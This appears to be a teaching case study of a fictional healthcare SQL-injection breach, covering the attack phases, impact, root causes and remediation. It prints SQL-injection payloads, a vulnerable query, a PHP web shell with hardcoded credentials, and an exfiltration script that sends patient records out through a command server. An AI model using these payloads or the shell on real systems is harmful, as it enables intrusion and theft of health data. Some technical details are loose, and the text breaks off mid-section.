# Case Study 2: Database Data Breach

## Executive Summary

**Incident Type**: Unauthorized Database Access & Data Exfiltration  
**Severity**: Critical  
**Impact**: 2.5 million customer records compromised  
**Root Cause**: SQL Injection vulnerability + inadequate database security  
**Detection Time**: 47 days  
**Resolution Time**: 96 hours  
**Estimated Cost**: $18.7 million (fines, remediation, legal, reputational damage)

---

## Table of Contents
- [Background](#background)
- [The Incident](#the-incident)
- [Attack Vector Analysis](#attack-vector-analysis)
- [Timeline](#timeline)
- [Impact Assessment](#impact-assessment)
- [Root Cause Analysis](#root-cause-analysis)
- [Response and Remediation](#response-and-remediation)
- [Lessons Learned](#lessons-learned)
- [Prevention Strategies](#prevention-strategies)
- [Related Documentation](#related-documentation)

---

## Background

### Company Profile
- **Organization**: HealthPortal Inc. (pseudonym)
- **Industry**: Healthcare Technology
- **Size**: 5 million registered users
- **Architecture**: Monolithic application with PostgreSQL database
- **Compliance Requirements**: HIPAA, GDPR, SOC 2 (see [../compliance.md](../compliance.md))

### System Architecture



### Data Stored

**Protected Health Information (PHI)**:
- Patient names, addresses, dates of birth
- Social Security Numbers
- Medical record numbers
- Insurance information
- Medical histories
- Prescription records
- Lab results
- Physician notes

**Authentication Data**:
- Email addresses
- Password hashes (bcrypt)
- Security questions/answers
- MFA secrets (for enrolled users)

### Security Posture Before Incident

**Implemented Controls**:
- SSL/TLS for data in transit
- Password hashing (bcrypt)
- Firewall rules
- Basic intrusion detection
- Annual penetration testing
- SOC 2 Type I certification

**Missing Controls**:
- No Web Application Firewall (WAF)
- No database activity monitoring
- Limited input validation
- No parameterized queries in legacy code
- Overly permissive database credentials
- No data masking
- No field-level encryption (see [../encryption.md](../encryption.md))

---

## The Incident

### Discovery

**Date**: August 22, 2024, 11:34 PM UTC

A data security monitoring service (IdentityGuard) detected HealthPortal patient records being sold on a dark web marketplace:

- **Listing Title**: "HealthPortal DB - 2.5M Records - Fresh Dump"
- **Price**: $150,000 (Bitcoin)
- **Sample Data**: 1,000 records provided as proof
- **Data Freshness**: Records dated up to August 20, 2024

IdentityGuard notified HealthPortal's security team immediately.

### Initial Response

**Security team discovered**:
- Unknown database queries in PostgreSQL logs
- Unusual traffic patterns dating back 47 days
- Large data exports from production database
- Suspicious admin panel activity
- Multiple SQL injection attempts in application logs

### Attacker Profile

**Threat Actor**: Organized cybercrime group (likely APT)

**Tactics, Techniques, and Procedures (TTPs)**:
- Reconnaissance phase: 2 weeks
- Initial compromise: SQL injection
- Privilege escalation: Compromised admin credentials
- Persistence: Backdoor web shell
- Data exfiltration: Staged extraction over 4 weeks
- Monetization: Dark web sale

```mermaid
graph LR
    A[Reconnaissance] -->|SQL Injection Scan| B[Initial Access]
    B -->|Exploit Vulnerability| C[Database Access]
    C -->|Credential Theft| D[Admin Panel Access]
    D -->|Install Backdoor| E[Persistence]
    E -->|Staged Exfiltration| F[Data Theft]
    F -->|Dark Web| G[Monetization]
    
    style B fill:#ff9999
    style C fill:#ffcccc
    style D fill:#ff9999
    style E fill:#ff9999
    style F fill:#ffcccc
```

---

## Attack Vector Analysis

### Phase 1: Reconnaissance (Days 1-14)

**Attacker Activities**:
- Automated vulnerability scanning
- Directory enumeration
- SQL injection detection
- Technology fingerprinting
- User enumeration

**Evidence Found**:
```log
[2024-07-06 08:23:15] GET /search?query=' OR '1'='1 - Status: 200
[2024-07-06 08:23:47] GET /search?query=' UNION SELECT NULL-- - Status: 200
[2024-07-06 08:24:12] GET /search?query=' UNION SELECT NULL,NULL-- - Status: 200
[2024-07-06 08:24:35] GET /search?query=' UNION SELECT NULL,NULL,NULL-- - Status: 200
[2024-07-06 08:25:01] GET /search?query=' UNION SELECT version(),NULL,NULL-- - Status: 200
```

### Phase 2: Initial Compromise (Day 15)

**Vulnerability Exploited**: SQL Injection in search functionality

**Vulnerable Code**:
```python
# search.py - Vulnerable implementation
@app.route('/search')
def search_patients():
    query = request.args.get('query', '')
    
    # VULNERABILITY: String concatenation, no sanitization
    sql = f"""
        SELECT patient_id, first_name, last_name, date_of_birth, ssn
        FROM patients 
        WHERE first_name LIKE '%{query}%' 
           OR last_name LIKE '%{query}%'
    """
    
    cursor = db.cursor()
    cursor.execute(sql)  # No parameterization!
    results = cursor.fetchall()
    
    return jsonify(results)
```

**Exploit Payload**:
```sql
' UNION SELECT 
    table_name, column_name, data_type, NULL, NULL 
FROM information_schema.columns 
WHERE table_schema = 'public'--
```

**What This Revealed**:
- Complete database schema
- Table names and relationships
- Column names (including sensitive fields)
- Data types

### Phase 3: Data Enumeration (Days 15-20)

**Attacker Actions**:
- Mapped entire database structure
- Identified high-value tables
- Located admin credentials table
- Found backup file locations

**Database Structure Discovered**:


**Sensitive Tables Found**:
```sql
-- Via SQL Injection
' UNION SELECT 
    COUNT(*), 'patients', NULL, NULL, NULL 
FROM patients 
UNION SELECT 
    COUNT(*), 'medical_records', NULL, NULL, NULL 
FROM medical_records
UNION SELECT 
    COUNT(*), 'users', NULL, NULL, NULL 
FROM users--

-- Results revealed:
-- patients: 2,500,000 records
-- medical_records: 8,750,000 records  
-- users: 5,200 records (including 42 admins)
```

### Phase 4: Privilege Escalation (Day 21)

**Admin Credential Theft**:

The attacker extracted password hashes using SQL injection:

```sql
' UNION SELECT 
    user_id, email, password_hash, role, is_admin::text
FROM users 
WHERE is_admin = true--
```

**Extracted Admin Accounts** (42 accounts):
- 38 accounts: Strong passwords, MFA enabled
- 4 accounts: Weak passwords, no MFA
- 1 account: Reused password from previous breach

**Compromised Account**:
```
Email: admin.legacy@healthportal.com
Role: Database Administrator
Created: 2018 (6 years old, forgotten account)
Password: HealthPortal2018! (cracked in 4 hours via rainbow table)
MFA: Not enrolled
Last Login: 2019 (dormant account)
```

**Attack Technique**:


### Phase 5: Persistence (Day 22)

**Backdoor Installation**:

Once inside the admin panel, the attacker uploaded a web shell:

```php
<?php
// Backdoor: shell.php (disguised as image upload)
if (isset($_REQUEST['cmd'])) {
    $cmd = $_REQUEST['cmd'];
    
    // Execute system commands
    $output = shell_exec($cmd);
    echo "<pre>$output</pre>";
}

// Database direct access
if (isset($_REQUEST['sql'])) {
    $sql = $_REQUEST['sql'];
    
    // Direct database query execution
    $conn = pg_connect("host=localhost dbname=healthportal user=admin password=admin123");
    $result = pg_query($conn, $sql);
    
    echo "<pre>";
    while ($row = pg_fetch_assoc($result)) {
        print_r($row);
    }
    echo "</pre>";
}
?>
```

**Backdoor Location**:
```
/var/www/healthportal/public/uploads/images/profile_2024_07_28_1234.php
```

**Persistence Mechanisms**:
- Web shell disguised as image file
- Scheduled cron job for re-installation
- SSH key added to admin user
- Database user with elevated privileges created

### Phase 6: Data Exfiltration (Days 23-50)

**Staged Extraction Strategy**:

The attacker avoided detection by:
- Small, incremental exports (50,000 records per day)
- Exports during off-peak hours (2-4 AM UTC)
- Using legitimate-looking admin queries
- Encrypting data before transfer
- Using Tor network for exfiltration

**Exfiltration Timeline**:


**Exfiltration Method**:
```python
# Attacker's exfiltration script (reconstructed)
import psycopg2
import requests
from Crypto.Cipher import AES
import base64

# Connect via backdoor
def exfiltrate_batch(offset, limit):
    sql = f"""
        SELECT patient_id, ssn, first_name, last_name, 
               date_of_birth, address, phone, email
        FROM patients
        ORDER BY patient_id
        OFFSET {offset} LIMIT {limit}
    """
    
    # Execute via backdoor
    response = requests.get(
        'https://healthportal.com/uploads/images/profile_2024_07_28_1234.php',
        params={'sql': sql},
        headers={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)'}
    )
    
    data = response.text
    
    # Encrypt data
    encrypted = encrypt_aes(data)
    
    # Exfiltrate via Tor
    send_to_command_server(encrypted)
    
    return len(data)

# Gradual exfiltration
total_records = 2500000
batch_size = 50000

for offset in range(0, total_records, batch_size):
    exfiltrate_batch(offset, batch_size)
    sleep(random.randint(3600, 7200))  # 1-2 hour delay between batches
```

**Data Exfiltrated**:
- 2.5 million patient records
- 8.7 million medical record entries
- 5,200 user accounts (including 42 admin accounts)
- Internal documentation
- Database backup files
- Source code snippets

### Phase 7: Monetization (Day 51)

**Dark Web Listing**:
```
================================
HEALTHPORTAL DATABASE - PREMIUM MEDICAL DATA
================================

- 2.5M Patient Records (USA)
- Full PHI (Names, SSN, DOB, Addresses)
- Medical Histories
- Insurance Information
- Prescriptions & Lab Results
- Fresh Data (August 2024)

Price: $150,000 BTC
Escrow Available
Sample: 1,000 records provided

Contact: [Encrypted Contact Method]
================================
```

---

## Timeline



### Detailed Event Timeline

| Date/Time (UTC) | Event | Action |
|-----------------|-------|--------|
| July 6, 08:00 | Attacker begins reconnaissance | No detection |
| July 13, 10:00 | SQL injection attempts | Logged but not alerted |
| July 20, 14:30 | Successful SQL injection exploit | No detection |
| July 25, 03:15 | Admin password hashes extracted | No detection |
| July 27, 02:47 | Admin account compromised | Failed login alerts ignored |
| July 28, 04:20 | Web shell uploaded | No file integrity monitoring |
| July 31 - Aug 20 | Data exfiltration (staged) | Unusual data transfer not flagged |
| Aug 22, 23:34 | Dark web listing discovered | IdentityGuard notification |
| Aug 23, 00:15 | Security team notified | Initial investigation |
| Aug 23, 02:00 | Incident declared critical | Emergency response activated |
| Aug 23, 04:00 | Backdoor discovered | System quarantined |
| Aug 23, 08:00 | Database access revoked | Service disruption begins |
| Aug 23, 18:00 | Full scope confirmed | Leadership briefed |
| Aug 24, 10:00 | Forensic investigation complete | Evidence preserved |
| Aug 25, 14:00 | HIPAA breach notification filed | 24-hour deadline met |
| Aug 26, 00:00 | Patient notification sent | Email to 2.5M users |
| Aug 27, 10:00 | Services restored | With enhanced security |
| Sept 5, 15:00 | Public statement released | Press conference held |

---

## Impact Assessment

### Patient Impact



**Affected Individuals**:
- **2.5 million patients**: Complete PHI exposed
- **1.2 million patients**: Highly sensitive diagnoses exposed
- **450,000 patients**: Mental health records exposed
- **120,000 patients**: HIV/AIDS status exposed
- **85,000 patients**: Substance abuse treatment records exposed

### Data Compromised

**Protected Health Information (PHI)**:
| Data Type | Records | Sensitivity |
|-----------|---------|-------------|
| Names & Addresses | 2,500,000 | Medium |
| Social Security Numbers | 2,500,000 | Critical |
| Dates of Birth | 2,500,000 | Medium |
| Medical Record Numbers | 2,500,000 | High |
| Diagnoses | 2,200,000 | Critical |
| Prescriptions | 2,100,000 | High |
| Lab Results | 1,200,000 | High |
| Insurance Information | 1,800,000 | High |
| Physician Notes | 950,000 | Critical |

**Authentication Data**:
- 5,200 user accounts (email + password hash)
- 42 admin accounts
- MFA secrets for 1,240 enrolled users

### Business Impact

**Financial Losses**:


**Breakdown**:
- **HIPAA Fines**: $5,000,000 (HHS OCR penalty)
- **State Attorney General Fines**: $2,500,000 (multiple states)
- **GDPR Fines**: $1,000,000 (EU patients affected)
- **Incident Response**: $2,200,000
- **Legal Fees**: $3,500,000 (class action defense)
- **Credit Monitoring**: $2,800,000 (3 years for 2.5M people)
- **Public Relations**: $900,000
- **Security Improvements**: $800,000
- **Total**: **$18,700,000**

**Additional Losses**:
- Stock price dropped 32% in one week
- 15% customer churn over 6 months
- SOC 2 certification suspended
- Major partnerships terminated
- Insurance premiums increased 300%

### Reputational Damage

**Media Coverage**:
- 500+ news articles
- Front page of major newspapers
- Congressional inquiry initiated
- Industry reputation severely damaged
- Trust score dropped 67%

**Patient Impact**:
- Class action lawsuit filed (12,000 plaintiffs)
- Patient advocacy groups called for boycott
- Negative social media sentiment (92%)
- 89% of surveyed patients lost trust

### Legal and Regulatory Consequences

**HIPAA Violations** (see [../compliance.md](../compliance.md)):
- **Failure to implement technical safeguards**
  - No database activity monitoring
  - Inadequate access controls
  - Missing encryption for data at rest
- **Failure to conduct risk assessment**
  - Last assessment: 3 years ago
  - SQL injection risk not identified
- **Failure to implement audit controls**
  - Insufficient logging
  - No log review process
- **Delayed breach notification**
  - 47-day detection time unacceptable

**HHS Office for Civil Rights (OCR) Investigation**:
- 18-month investigation
- Multiple audits conducted
- Corrective Action Plan (CAP) required
- 3 years of monitoring

**Criminal Charges**:
- No criminal charges against company
- CEO and CISO faced civil penalties
- Board members named in shareholder lawsuit

---

## Root Cause Analysis

### The Five Whys



### Contributing Factors

#### 1. Technical Vulnerabilities

**Application Layer**:
- SQL injection in search functionality
- Missing input validation (see [../application_security.md](../application_security.md))
- No parameterized queries
- Insufficient output encoding
- No Web Application Firewall (see [../network_security.md](../network_security.md))

**Database Layer**:
- Overly permissive database user privileges
- No database activity monitoring
- Missing data masking
- No field-level encryption (see [../encryption.md](../encryption.md))
- Weak password policy for database accounts

**Authentication & Authorization** (see [../authentication.md](../authentication.md), [../authorization.md](../authorization.md)):
- Dormant admin accounts not disabled
- Weak password (cracked in 4 hours)
- No MFA requirement for privileged accounts
- No regular access reviews
- Password reuse from previous breach

**Monitoring & Detection** (see [../monitoring_auditing.md](../monitoring_auditing.md)):
- No real-time anomaly detection
- Insufficient log aggregation
- No SIEM implementation
- Failed login alerts ignored
- No data exfiltration detection

#### 2. Organizational Failures

**Security Culture**:
- Security seen as cost center, not enabler
- "Ship fast" culture over security
- Limited security training
- No security champions program
- Blame culture discouraged reporting

**Resource Allocation**:
- Security budget: 0.5% of IT budget (industry standard: 12-15%)
- 2 security engineers for 5 million users
- No dedicated AppSec team
- Penetration testing only annually
- No bug bounty program

**Governance**:
- No Chief Information Security Officer (CISO) until after breach
- Security reported to IT, not executive team
- No Board-level security oversight
- Risk register not maintained
- No security metrics or KPIs

#### 3. Process Gaps

**Secure Development Lifecycle** (see [../best_practises.md](../best_practises.md)):
- No security requirements in SDLC
- Code reviews did not include security checks
- No static/dynamic application security testing (SAST/DAST)
- Legacy code not refactored
- No security design reviews

**Vulnerability Management**:
- No vulnerability scanning
- Penetration testing results not remediated
- No vulnerability disclosure process
- Previous pen test identified SQL injection (not fixed)
- No patch management for application code

**Access Management**:
- No regular access reviews
- Dormant accounts not disabled (6-year-old account compromised)
- No privileged access management (PAM)
- Shared admin credentials
- No just-in-time (JIT) access

**Incident Response**:
- No incident response plan
- No incident response team
- Detection relied on external notification
- No tabletop exercises
- Communication plan not prepared

#### 4. Compliance Failures

**HIPAA Requirements Not Met**:
- Risk assessment outdated (3 years old)
- Technical safeguards incomplete
- Audit controls inadequate
- Workforce training insufficient
- Business Associate Agreements not updated

**SOC 2 Compliance**:
- Type I only (point-in-time)
- Controls not continuously monitored
- Exceptions not tracked
- Evidence collection gaps

---

## Response and Remediation

### Immediate Actions (0-24 hours)



**Actions Taken**:

1. **Containment**
   ```bash
   # Emergency database lockdown
   # Revoke all application database connections
   REVOKE ALL PRIVILEGES ON ALL TABLES IN SCHEMA public FROM app_user;
   
   # Disable compromised admin account
   UPDATE users SET is_active = false WHERE email = 'admin.legacy@healthportal.com';
   
   # Kill active sessions
   SELECT pg_terminate_backend(pid) FROM pg_stat_activity 
   WHERE usename = 'admin' AND pid <> pg_backend_pid();
   
   # Remove backdoor
   rm /var/www/healthportal/public/uploads/images/profile_2024_07_28_1234.php
   
   # Block attacker IPs at firewall
   iptables -A INPUT -s 185.220.101.X -j DROP
   ```

2. **Evidence Preservation**
   - Took database snapshots
   - Preserved all logs (7 days retained, recovered from backups for full 47-day period)
   - Created disk images of affected servers
   - Documented all actions taken

3. **Team Assembly**
   - Engaged external forensics firm
   - Retained breach notification law firm
   - Activated crisis PR team
   - Assembled technical response team

### Short-term Response (24-72 hours)

**Forensic Investigation**:

1. **Timeline Reconstruction**
   - Analyzed 47 days of logs
   - Identified initial compromise
   - Mapped attacker movements
   - Quantified data exfiltrated

2. **Scope Determination**
   ```sql
   -- Identify all accessed records
   SELECT DISTINCT patient_id, access_time, accessing_user
   FROM audit_logs
   WHERE access_time BETWEEN '2024-07-06' AND '2024-08-22'
     AND accessing_user IN ('admin.legacy@healthportal.com', 'backdoor_shell')
   ORDER BY access_time;
   
   -- Result: 2,547,892 unique patient_id values accessed
   ```

3. **Compromised Data Catalog**
   - Complete list of affected patients
   - Types of data accessed per patient
   - Sensitivity classification
   - Regulatory notification requirements

**Regulatory Notification** (see [../compliance.md](../compliance.md)):

1. **HIPAA Breach Notification** (60-day requirement)
   - Notified HHS OCR within 24 hours (voluntary expedited notification)
   - Submitted breach report with initial assessment
   - Filed media notification (>500 individuals)

2. **State Attorney General Notifications**
   - Notified AGs in all 50 states (multi-state breach)
   - Provided breach details and remediation plans

3. **GDPR Notification** (72-hour requirement)
   - Notified relevant EU supervisory authorities
   - 15,000 EU residents affected

**Patient Notification**:


**Notification Contents**:
- Description of incident
- Types of information involved
- Actions taken by HealthPortal
- Resources available to individuals
- Contact information
- Free credit monitoring (3 years)
- Identity theft insurance

### Medium-term Remediation (72 hours - 2 weeks)

**Technical Fixes**:

1. **Eliminate SQL Injection**

```python
# Fixed search implementation
from flask import request, jsonify
import psycopg2
from psycopg2 import sql

@app.route('/search')
def search_patients():
    query = request.args.get('query', '')
    
    # Input validation
    if not query or len(query) < 2:
        return jsonify({'error': 'Query too short'}), 400
    
    if len(query) > 100:
        return jsonify({'error': 'Query too long'}), 400
    
    # Parameterized query (CRITICAL FIX)
    cursor = db.cursor()
    cursor.execute("""
        SELECT patient_id, first_name, last_name, date_of_birth, 
               '[REDACTED]' as ssn  -- Data masking
        FROM patients 
        WHERE first_name ILIKE %s 
           OR last_name ILIKE %s
        LIMIT 100
    """, (f'%{query}%', f'%{query}%'))
    
    results = cursor.fetchall()
    
    # Audit log every search
    audit_log('PATIENT_SEARCH', {
        'user_id': current_user.id,
        'query': query,
        'results_count': len(results),
        'ip': request.remote_addr
    })
    
    return jsonify(results)
```

2. **Database Hardening**

```sql
-- Principle of least privilege
-- Create limited-privilege application user
CREATE USER app_readonly WITH PASSWORD 'strong_generated_password';

-- Grant only SELECT on necessary tables
GRANT SELECT ON patients (patient_id, first_name, last_name, date_of_birth) TO app_readonly;
GRANT SELECT ON medical_records (record_id, patient_id, record_date) TO app_readonly;

-- Revoke dangerous permissions
REVOKE ALL ON patients FROM app_user;
REVOKE ALL ON information_schema.tables FROM PUBLIC;

-- Implement Row-Level Security (RLS)
ALTER TABLE patients ENABLE ROW LEVEL SECURITY;

CREATE POLICY patient_access_policy ON patients
    FOR SELECT
    TO app_readonly
    USING (
        -- Only allow access through application logic
        current_setting('app.current_user_id')::int = patient_id
        OR current_user IN (SELECT user_id FROM authorized_staff)
    );

-- Encrypt sensitive columns
-- Using pgcrypto extension
